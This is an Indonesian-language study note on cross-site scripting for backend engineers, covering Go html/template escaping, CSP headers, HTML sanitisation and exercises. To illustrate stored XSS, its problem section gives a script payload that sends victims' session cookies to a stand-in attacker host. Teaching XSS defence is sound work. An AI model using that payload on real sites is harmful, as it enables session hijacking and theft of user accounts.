

## TL;DR

XSS (Cross-Site Scripting) terjadi ketika data yang tidak tepercaya — biasanya input dari satu pengguna — ditampilkan ke pengguna lain tanpa di-escape dengan benar, sehingga browser korban salah menafsirkan data itu sebagai kode HTML/JavaScript yang harus dijalankan, bukan sekadar teks yang harus ditampilkan. Ini adalah SQL injection versi browser: akar masalahnya identik (mencampur data dengan konteks eksekusi/interpretasi), hanya interpreter-nya berbeda (browser, bukan database). Meskipun ini terutama kerentanan sisi frontend, backend engineer memegang tanggung jawab besar di sini — API yang mengembalikan data tanpa sanitasi yang tepat, atau tanpa header keamanan yang benar, adalah sumber utama celah XSS yang sesungguhnya dieksploitasi.

## The Problem

Sebuah fitur komentar di portal layanan publik menampilkan input pengguna apa adanya ke pengguna lain yang membaca komentar itu, tanpa di-escape. Seorang penyerang mengirim komentar berisi `<script>document.location='https://situs-jahat.example/curi?cookie='+document.cookie</script>` alih-alih teks biasa. Setiap pengguna lain yang membuka halaman itu, browser mereka menjalankan script tersebut sebagai bagian dari halaman — bukan menampilkannya sebagai teks — dan cookie session mereka (lihat [[Sessions vs Tokens]]) terkirim diam-diam ke server penyerang, yang kemudian bisa memakai cookie itu untuk mengambil alih sesi korban tanpa pernah tahu password mereka sama sekali.

Masalah kedua yang lebih relevan untuk backend API murni (bukan aplikasi yang me-render HTML langsung): sebuah API JSON mengembalikan field `nama_pemohon` yang berisi input pengguna mentah, dan frontend (Next.js atau aplikasi lain) yang mengonsumsi API itu menampilkan field tersebut lewat cara yang tidak aman (misalnya `dangerouslySetInnerHTML` di React tanpa sanitasi). Meskipun celah render ada di sisi frontend, akar penyebabnya sering kali adalah backend yang tidak pernah membersihkan atau menandai data itu sebagai "tidak tepercaya", sehingga tim frontend memperlakukannya sebagai data yang aman ditampilkan mentah.

## Intuition

XSS seperti **mading (papan pengumuman) kantor di mana siapa saja boleh menempelkan kertas** — kalau petugas yang mengelola mading menempelkan kertas apa pun yang diserahkan orang tanpa memeriksa isinya, seseorang bisa menempelkan "kertas" yang sebenarnya berisi instruksi tersembunyi yang membuat orang lain yang membacanya tanpa sadar melakukan sesuatu yang tidak mereka maksud — seperti kertas berisi tulisan kecil "kalau Anda membaca ini, segera transfer uang ke rekening X" yang ditempel di antara pengumuman resmi, dan orang yang membacanya (percaya itu bagian dari pengumuman resmi) mengikutinya begitu saja.

Analogi ini bocor pada satu hal: kertas fisik di mading tidak bisa "mengeksekusi" apa pun secara otomatis — pembaca manusia yang harus memutuskan mengikuti instruksi atau tidak. Browser, sebaliknya, **secara otomatis mengeksekusi** apa pun yang ditandai sebagai kode (tag `<script>`, atribut event handler seperti `onerror`) tanpa perlu persetujuan atau kesadaran pengguna sama sekali — inilah yang membuat XSS jauh lebih berbahaya dari sekadar pesan menyesatkan: kode itu berjalan otomatis di browser korban dengan hak akses penuh yang sama seperti kode asli halaman itu.

## How It Works



Diagram ini menggambarkan **Stored XSS** — payload penyerang tersimpan di server dan dieksekusi setiap kali korban membuka halaman yang menampilkannya, membuatnya lebih berbahaya dari **Reflected XSS** (payload hanya dieksekusi kalau korban mengklik link yang dibuat khusus berisi payload di parameter URL, tidak pernah tersimpan permanen).

Pertahanan intinya sama seperti SQL injection: pisahkan data dari konteks eksekusi. Untuk HTML, ini berarti **escaping** — mengubah karakter yang punya makna khusus di HTML (`<`, `>`, `&`, `"`) menjadi representasi teks yang aman (`&lt;`, `&gt;`, dst.) sebelum ditampilkan, sehingga browser selalu menafsirkannya sebagai teks biasa, tidak pernah sebagai tag atau atribut.

## In Go

```go
package handler

import (
	"html/template"
	"net/http"
)

// html/template (BUKAN text/template) secara otomatis melakukan
// context-aware escaping — ia tahu apakah sebuah nilai disisipkan di dalam
// tag HTML, atribut, atau blok <script>, dan menerapkan escaping yang sesuai
// konteks itu secara otomatis. Ini kenapa html/template harus selalu dipakai
// untuk merender HTML yang mengandung data pengguna, tidak pernah
// text/template yang tidak tahu apa-apa soal konteks HTML.
var templateKomentar = template.Must(template.New("komentar").Parse(`
<div class="komentar">{{.Isi}}</div>
`))

type Komentar struct {
	Isi string
}

func TampilkanKomentar(w http.ResponseWriter, r *http.Request) {
	komentar := Komentar{Isi: "<script>alert('xss')</script>"}

	// html/template secara otomatis meng-escape komentar.Isi menjadi
	// &lt;script&gt;alert(&#39;xss&#39;)&lt;/script&gt; saat dirender —
	// browser menampilkannya sebagai teks, tidak menjalankannya sebagai kode.
	if err := templateKomentar.Execute(w, komentar); err != nil {
		http.Error(w, "gagal render", http.StatusInternalServerError)
	}
}
```

```go
package handler

import "net/http"

// SetHeaderKeamanan menambahkan Content-Security-Policy sebagai lapisan
// pertahanan tambahan (defense in depth) — bahkan kalau ada satu titik XSS
// yang lolos dari sanitasi, CSP yang ketat bisa mencegah browser menjalankan
// inline script sama sekali, membatasi dampak celah yang mungkin terlewat.
func SetHeaderKeamanan(next http.Handler) http.Handler {
	return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
		w.Header().Set("Content-Security-Policy", "default-src 'self'; script-src 'self'")
		w.Header().Set("X-Content-Type-Options", "nosniff")
		next.ServeHTTP(w, r)
	})
}
```

Untuk API yang murni mengembalikan JSON (bukan me-render HTML sama sekali), risiko XSS langsung dari backend jauh lebih kecil — `encoding/json` di Go secara default meng-escape karakter HTML tertentu (`<`, `>`, `&`) di dalam string JSON, tapi tanggung jawab tetap ada di sisi frontend yang mengonsumsi JSON itu untuk tidak merender field apa pun sebagai HTML mentah tanpa sanitasi tambahan.

## In His Stack

Yii2 menyediakan `Html::encode()` yang harus dipanggil eksplisit di view untuk data yang berasal dari input pengguna — mirip peran `html/template` di Go, bedanya Yii2 tidak melakukan escaping otomatis di semua tempat (developer harus ingat memanggilnya), sementara `html/template` Go melakukannya otomatis untuk setiap value yang disisipkan lewat `{{...}}` selama memakai package yang benar. Untuk aplikasi Next.js yang mengonsumsi API Go, React (yang menjadi basis Next.js) secara default melakukan escaping otomatis untuk konten yang dirender lewat JSX biasa — celah XSS di ekosistem ini hampir selalu muncul justru ketika developer sengaja memakai `dangerouslySetInnerHTML` untuk kebutuhan khusus (misalnya menampilkan HTML kaya dari rich text editor) tanpa sanitasi tambahan seperti library DOMPurify.

## Trade-offs and When Not To Use It

Escaping otomatis (lewat `html/template` atau setara) hampir tidak punya trade-off nyata untuk kasus umum — overhead komputasinya kecil dan manfaat keamanannya besar. Kompleksitas nyata muncul saat aplikasi memang **butuh** menampilkan HTML kaya dari pengguna (rich text editor untuk deskripsi permohonan, misalnya) — di kasus itu, escaping penuh akan merusak formatting yang sah (bold, italic, list), sehingga dibutuhkan sanitasi selektif (whitelist tag HTML yang diizinkan, lewat library seperti `bluemonday` di Go) alih-alih escaping mentah seluruh isi. Ini butuh kehati-hatian ekstra karena whitelist tag yang tidak lengkap (misalnya melewatkan atribut `onerror` di tag ``) tetap bisa membuka celah XSS meski sebagian besar tag sudah difilter.

## Common Mistakes

> [!warning] Jebakan
> Memakai `text/template` alih-alih `html/template` untuk merender HTML — `text/template` tidak tahu apa-apa soal konteks HTML dan tidak melakukan escaping apa pun, membuka celah XSS penuh untuk data apa pun yang disisipkan.

> [!warning] Jebakan
> Menyanitasi HTML dengan blacklist tag manual (menghapus `<script>` lewat string replace) alih-alih memakai library sanitasi HTML yang matang — blacklist manual selalu punya celah (misalnya lupa memblokir atribut event handler seperti `onerror`, `onload` di tag gambar), mirip kerentanan yang sama seperti blacklist di [[SQL Injection]].

> [!warning] Jebakan
> Mengasumsikan API yang "hanya mengembalikan JSON" sepenuhnya bebas risiko XSS — backend tetap bertanggung jawab tidak mengembalikan data yang jelas-jelas berbahaya tanpa sanitasi, karena frontend yang menerima data itu mungkin (secara sengaja atau tidak sengaja lewat bug) merendernya sebagai HTML mentah.

## Exercises

1. Jelaskan kenapa XSS disebut "SQL injection versi browser" — apa kesamaan akar masalah keduanya?
2. Apa perbedaan Stored XSS dan Reflected XSS, dan kenapa Stored XSS umumnya dianggap lebih berbahaya?
3. Kenapa `html/template` lebih aman dibanding `text/template` untuk merender HTML yang mengandung data pengguna?
4. Desain terbuka: fiturmu butuh menampilkan deskripsi permohonan yang ditulis pengguna lewat rich text editor (mendukung bold, italic, list, tapi bukan sembarang HTML). Rancang alur validasi dan penyimpanan data ini dari saat pengguna submit sampai saat ditampilkan ke pengguna lain, dengan mempertimbangkan di mana sanitasi sebaiknya dilakukan (saat disimpan, atau saat ditampilkan) dan kenapa.

> [!success]- Kunci jawaban
> **1.** Keduanya adalah bentuk **injection**: data yang tidak tepercaya dicampur langsung ke dalam sesuatu yang akan **diinterpretasikan/dieksekusi** oleh sistem lain (database untuk SQL injection, browser untuk XSS), tanpa pemisahan yang jelas antara "ini data" dan "ini perintah". Pertahanannya juga sama secara prinsip: pisahkan data dari konteks eksekusi secara struktural (prepared statement untuk SQL, escaping context-aware untuk HTML), bukan mencoba menyaring pola berbahaya secara manual.
> **4.** Pendekatan yang lebih aman: sanitasi (whitelist tag yang diizinkan lewat library seperti `bluemonday`) dilakukan **saat data disimpan**, bukan hanya saat ditampilkan — alasannya, kalau data mentah (belum disanitasi) tersimpan di database, setiap tempat lain yang membaca data itu di masa depan (fitur ekspor, API lain, integrasi partner) harus mengingat untuk menyanitasinya sendiri-sendiri, dan melewatkan satu tempat saja membuka celah. Menyanitasi sekali saat disimpan berarti data yang keluar dari database sudah aman untuk ditampilkan di mana pun tanpa bergantung pada setiap konsumen mengingat langkah itu. Trade-off: kalau kebijakan whitelist tag berubah di masa depan (misalnya menambah dukungan tabel), data lama yang sudah tersimpan tidak otomatis mendapat tag baru itu tanpa proses migrasi ulang — ini trade-off yang umumnya diterima demi konsistensi keamanan di seluruh sistem.

## Self-Check

- Apa yang membuat XSS lebih berbahaya dari sekadar pesan menyesatkan biasa?
- Apa perbedaan Stored XSS dan Reflected XSS?
- Kenapa `html/template` di Go melakukan escaping otomatis, sementara `text/template` tidak?
- Kenapa sanitasi HTML dengan whitelist tag lebih aman dibanding blacklist manual?

## Connected Notes

- [[SQL Injection]] — kerentanan injection dengan akar masalah identik: mencampur data tidak tepercaya dengan konteks yang akan diinterpretasikan sebagai perintah.
- [[Sessions vs Tokens]] — cookie session yang tidak diberi flag `HttpOnly` bisa dicuri lewat XSS yang berhasil membaca `document.cookie`.
- [[The OWASP Top 10]] — XSS adalah salah satu bentuk kerentanan klasik dalam kategori Injection di daftar ini.
- [[CSRF]] — sering disandingkan dengan XSS karena keduanya menyerang sisi klien, tapi mekanismenya berbeda mendasar: XSS menjalankan kode di konteks korban, CSRF memaksa korban mengirim request tanpa perlu menjalankan kode apa pun.
- [[../30 APIs and Web/Consistent Error Responses|Consistent Error Responses]] — pesan error yang menampilkan input pengguna mentah (misalnya "kata kunci tidak ditemukan: `<input>`") juga rentan jadi vektor XSS kalau tidak di-escape.

## Further Reading

- OWASP XSS Prevention Cheat Sheet — panduan escaping context-aware lengkap untuk setiap konteks HTML (atribut, script, URL).
- Dokumentasi package `html/template` Go.

## Catatan Saya

*Tulis di sini apakah ada fitur di sistem kerjaanmu yang menampilkan input pengguna mentah (komentar, deskripsi, nama), dan bagaimana sanitasinya ditangani saat ini.*
